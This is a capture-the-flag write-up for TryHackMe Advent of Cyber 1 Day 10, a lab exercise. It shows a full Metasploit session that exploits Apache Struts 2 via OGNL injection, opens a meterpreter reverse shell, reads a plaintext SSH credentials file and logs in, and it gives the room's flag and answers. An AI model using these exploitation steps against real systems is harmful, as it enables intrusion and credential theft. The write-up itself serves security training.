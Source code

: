 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 10
### References
* Spring, B. (2019, December 9). Metasploit: Basics. TryHackMe Blog; TryHackMe Blog. https://blog.tryhackme.com/metasploit/
## Compromise the web server using Metasploit. What is flag1?
* According to the [blog post](https://blog.tryhackme.com/metasploit/):
> The Christmas challenge will include a web server that is running a vulnerable version of Apache Struts 2 (an open-source web application framework for Java applications).
* The [blog post](https://blog.tryhackme.com/metasploit/) uses `exploit/multi/http/struts2_content_type_ognl`:
![`exploit/multi/http/struts2_content_type_ognl`](https://blog.tryhackme.com/content/images/2019/12/Screenshot-from-2019-12-09-20-48-19.png)

```bash
$ msfconsole -q
msf6 > search struts2

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   1  exploit/multi/http/struts2_multi_eval_ognl       2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation
   2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
   4  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
   5  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   6  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
   7  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution

msf6 > use exploit/multi/http/struts2_content_type_ognl
msf6 exploit(multi/http/struts2_content_type_ognl) > set RHOSTS 10.10.194.217
RHOSTS => 10.10.194.217
msf6 exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
msf6 exploit(multi/http/struts2_content_type_ognl) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
PAYLOAD => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_content_type_ognl) > set LHOST 10.4.32.172
LHOST => 10.4.32.172
msf6 exploit(multi/http/struts2_content_type_ognl) > run

[*] Started reverse TCP handler on 10.4.32.172:4444 
[*] Sending stage (980808 bytes) to 10.10.194.217
[*] Meterpreter session 1 opened (10.4.32.172:4444 -> 10.10.194.217:41814) at 2021-06-29 15:52:56 +1000

meterpreter > shell
Process 52 created.
Channel 1 created.
$ find / 2>>/dev/null | grep -i "flag"
/sys/devices/pnp0/00:06/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.20.2/bits/waitflags.ph
/usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
/flag-dir
$ exit
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
```

**Flag 1**: `THM{3ad96bb13ec963a5ca4cb99302b37e12}`
## Now you've compromised the web server, get onto the main system. What is Santa's SSH password?
```bash
meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2019-12-09 08:12:45 +1100  santa

meterpreter > cd santa
meterpreter > ls
Listing: /home/santa
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  30    fil   2019-12-09 08:12:44 +1100  ssh-creds.txt

meterpreter > cat ssh-creds.txt 
santa:rudolphrednosedreindeer
```

**Answer**: `rudolphrednosedreindeer`
## Who is on line 148 of the naughty list?
```bash
 ssh santa@10.10.194.217
santa@10.10.194.217's password: rudolphrednosedreindeer
[santa@ip-10-10-194-217 ~]$ sed '148!d' naughty_list.txt 
Melisa Vanhoose
```
**Answer**: `Melisa Vanhoose`
## Who is on line 52 of the nice list?
```bash
[santa@ip-10-10-194-217 ~]$ sed '52!d' nice_list.txt 
Lindsey Gaffney
```
**Answer**: `Lindsey Gaffney`